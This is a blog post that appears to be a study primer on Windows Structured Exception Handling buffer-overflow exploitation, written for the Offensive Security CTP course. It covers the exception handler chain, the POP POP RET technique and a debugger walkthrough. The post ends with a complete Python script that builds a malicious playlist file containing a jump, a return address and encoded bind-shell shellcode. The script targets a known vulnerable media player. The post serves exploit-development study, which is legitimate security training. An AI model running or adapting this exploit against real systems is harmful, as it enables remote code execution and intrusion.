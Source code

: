 ```yaml
---
layout: single
title: "SEH primer for CTP"
excerpt: "A primer for n00bs like myself in preparation for the CTP course offered by Offensive Security"
date: 2020-07-10
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/seh/lich_boi.jpg
  teaser: /assets/images/seh/lich_boi.jpg
  teaser_home_page: true
classes: wide
categories:
  - OSCE
tags:
  - ctp
  - osce
  - assembly
---
```


![omg](/assets/images/seh/lich_boi.jpg)

## A primer on Structured Exception Handling (win32 exploitation)

*This article is written to help those who want a conceptual grasp on SEH exploits, I wrote this to help myself obtain a clear understanding before my CTP course starts.*

##### There are already many fantastic articles on this subject out there (some of which are linked throughout this article), which I encourage you to consume in order to get an even better understanding. 

#### What is an exception Handler?

In simple terms, an Exception Handler is exactly as the name implies, it *handles exceptions*, that is to say, when a program reaches something outside it's known functionality, an exception is raised (eg if a program wants an input between 2 and 5, and you put in 6). 

The program then needs to know how to *handle* this, either with an error message, exit code, or whatever else.

For every exception handler, there is an Exception Registration Record structure.
These structures are chained together to create a "linked list" (a linked list contains a sequence of data records).

When an exception is triggered the OS scans down the linked list to evaluate the other exception functions until it finds a suitable exception handler for the current exception. (If no error is found, windows places a generic handler at the end to ensure it wil be handled in some manner).

We can overwrite the SEH address with an overflow, and thus control it.

When an exception occurs and the Exception Handler (SEH) is called, it’s value is put in EIP. Since we have control over SEH, we now have control over EIP and the execution flow of the application. 

As an exception occurs in a program, and is subsequently handled, the system pushes what is called an EXCEPTION_DISPOSITION Handler onto the stack. Within this structure is an "Establisher Frame" which points to the first handler record record (this handler record just so happens to contain the address of the nSEH and SEH) and is located at ESP+8.

![SEH_frame](/assets/images/seh/SEH_frame.jpg)


#### SO WHY IS THIS RELEVANT TO US??!

Well, when we send an attack string which happens to overwrite the SEH, windows will zero out the CPU registers, thus breaking our jump to shellcode ;(

#### What we can do:

Overwrite SEH with a pointer to POP POP RETN. 

#### Why would we want to do that?

Well, after passing the first exception, EIP is overwritten with the value of SEH.
Second, the registers to which the bytes are popped into **are not important**, what is important is that when a POP occurs, ESP is shifted +4. When a RET is called, the ESP address are moved into EIP and executed.

If you recall The information regarding the establisher frame, the address of nSEH is at ESP+8, so by calling POP twice we end up at our nSEH address.

EG a program crashes, registers get zeroed and SP +8 is overwritten with crash string 41414141.

## Demonstration

To demonstrate this, we use example exercise from [https://www.fuzzysecurity.com/tutorials/expDev/3.html](https://www.fuzzysecurity.com/tutorials/expDev/3.html) (vulnerable software link is broken, software available on exploit-DB [here](https://www.exploit-db.com/exploits/17803)).

**Another invaluable resource for this subject is: [https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/](https://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)**


As the steps to exploitation have already been covered, I will not run through them again here, only provide a brief summary.

First, we crash the application with a pattern attack string to locate the offset to SEH, which mona will do the heavy lifting for.

As below we see SEH overwritten and offset located:

![SEH_crash](/assets/images/seh/SEH_crash.jpg)

Calculate offsets with `!mona findmsp`

![SEH_control](/assets/images/seh/SEH_examine.jpg)

Now that we know the offset, we confirm control by crashing with another simple attack string as per the offset specified when we examined with `!mona findmsp`

```
nSEH="B"*4
SEH="C"*4
buffer = "A"*608 + nSEH + SEH + "D"*1384
```


Proof of control: 

![SEH_control](/assets/images/seh/SEH_control.JPG)

Now we choose an address to point to in a module containing POP+POP+RET with `!mona seh`

![SEH_pointer](/assets/images/seh/SEH_pointers.jpg)

Next:
* I choose 0x6162e557
* flip for little endian `"\x57\xe5\x62\x61"`
* modify my malicious playlist generator (obtained from [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/3.html))
* restart the program in immunity, set a break point by going to expression 
* Import playlist
* Pass first exception (shift+F9)
* Hit breakpoint
* step through to call RET (F7)

Now as you can see below, EIP is now at the address of POP+POP+RET, step through until RET is called, and the next screenshot will show we have reached nSEH.

![SEH_break_PPR](/assets/images/seh/SEH_break_PPR.jpg)

![SEH_after_PPR](/assets/images/seh/SEH_after_PPR.jpg)

Now you may have guessed something based of the below sequence, that's right! if we continue we end up in an infinite loop - this is because as we hit BBBB, ANOTHER exception is raised, thus calling POP+POP+RET again...

So now we need to replace nSEH with opcode that will JMP over the next few bytes of space. A safe amount would be 10, and pad the beginning of shellcode with NOPS.

The opcode for JMP is `EB`, so nSEH would be `\xeb\x0a\x90\x90`

![SEH_overwrite](/assets/images/seh/SEH_overwrite.jpg)

![SEH_break_ppr2](/assets/images/seh/SEH_break_ppr2.jpg)

Once this is done some shellcode is generated and placed AFTER SEH but BEFORE the rest of the attack string which should be big enough to overflow the application as below:

```
#!/usr/bin/python -w
shellcode="\x90"*10+("\xd9\xc2\xd9\x74\x24\xf4\xba\x75\xad\xc8\xb1\x58\x33\xc9\xb1"
"\x53\x83\xe8\xfc\x31\x50\x13\x03\x25\xbe\x2a\x44\x39\x28\x28"
"\xa7\xc1\xa9\x4d\x21\x24\x98\x4d\x55\x2d\x8b\x7d\x1d\x63\x20"
"\xf5\x73\x97\xb3\x7b\x5c\x98\x74\x31\xba\x97\x85\x6a\xfe\xb6"
"\x05\x71\xd3\x18\x37\xba\x26\x59\x70\xa7\xcb\x0b\x29\xa3\x7e"
"\xbb\x5e\xf9\x42\x30\x2c\xef\xc2\xa5\xe5\x0e\xe2\x78\x7d\x49"
"\x24\x7b\x52\xe1\x6d\x63\xb7\xcc\x24\x18\x03\xba\xb6\xc8\x5d"
"\x43\x14\x35\x52\xb6\x64\x72\x55\x29\x13\x8a\xa5\xd4\x24\x49"
"\xd7\x02\xa0\x49\x7f\xc0\x12\xb5\x81\x05\xc4\x3e\x8d\xe2\x82"
"\x18\x92\xf5\x47\x13\xae\x7e\x66\xf3\x26\xc4\x4d\xd7\x63\x9e"
"\xec\x4e\xce\x71\x10\x90\xb1\x2e\xb4\xdb\x5c\x3a\xc5\x86\x08"
"\x8f\xe4\x38\xc9\x87\x7f\x4b\xfb\x08\xd4\xc3\xb7\xc1\xf2\x14"
"\xb7\xfb\x43\x8a\x46\x04\xb4\x83\x8c\x50\xe4\xbb\x25\xd9\x6f"
"\x3b\xc9\x0c\x05\x33\x6c\xff\x38\xbe\xce\xaf\xfc\x10\xa7\xa5"
"\xf2\x4f\xd7\xc5\xd8\xf8\x70\x38\xe3\x03\xb8\xb5\x05\x61\xaa"
"\x93\x9e\x1d\x08\xc0\x16\xba\x73\x22\x0f\x2c\x3b\x24\x88\x53"
"\xbc\x62\xbe\xc3\x37\x61\x7a\xf2\x47\xac\x2a\x63\xdf\x3a\xbb"
"\xc6\x41\x3a\x96\xb0\xe2\xa9\x7d\x40\x6c\xd2\x29\x17\x39\x24"
"\x20\xfd\xd7\x1f\x9a\xe3\x25\xf9\xe5\xa7\xf1\x3a\xeb\x26\x77"
"\x06\xcf\x38\x41\x87\x4b\x6c\x1d\xde\x05\xda\xdb\x88\xe7\xb4"
"\xb5\x67\xae\x50\x43\x44\x71\x26\x4c\x81\x07\xc6\xfd\x7c\x5e"
"\xf9\x32\xe9\x56\x82\x2e\x89\x99\x59\xeb\xb9\xd3\xc3\x5a\x52"
"\xba\x96\xde\x3f\x3d\x4d\x1c\x46\xbe\x67\xdd\xbd\xde\x02\xd8"
"\xfa\x58\xff\x90\x93\x0c\xff\x07\x93\x04")
nSEH="\xeb\x0A\x90\x90" # opcode to jump back over SEH to avoid loop and enter shellcode
SEH="\x57\xe5\x62\x61" # adress of non SEH protected module containing POP POP RET
filename="seh.plf"
buffer = "A"*608 + nSEH + SEH + shellcode+ "B"*(1384-len(shellcode))
textfile = open(filename , 'w')
textfile.write(buffer)
textfile.close()

```

Now we generate our malicious playlist and open it in again - this time immunity does not register a crash, and we are able to connect to the bind shell payload:

![SEH_exploited](/assets/images/seh/SEH_exploited1.jpg)

So the takeaways for exploiting SEH are:

* As always calculate the overflow amount
* calculate the offset to SEH
* confirm control of nSEH and SEH
* Use SEH to move up 8 to nSEH
* Use nSEH to Jump back over SEH and into shellcode

#### This is my first article in a series to help myself/others prepare for CTP and continue quest for big brain.

